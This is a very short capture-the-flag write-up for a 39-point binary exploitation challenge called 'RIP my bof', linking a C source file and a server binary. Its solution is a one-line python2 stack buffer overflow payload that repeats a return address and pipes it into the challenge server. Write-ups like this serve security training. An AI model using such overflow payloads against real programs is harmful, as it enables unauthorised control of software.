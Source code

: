 [../](../../)

# RIP my bof

## PWN - Points: 39

> [bof2.c](bof2.c)
>
> [server](server)

## Solution

	python2 -c "print('\x86\x85\x04\x08'*14)" | ./server
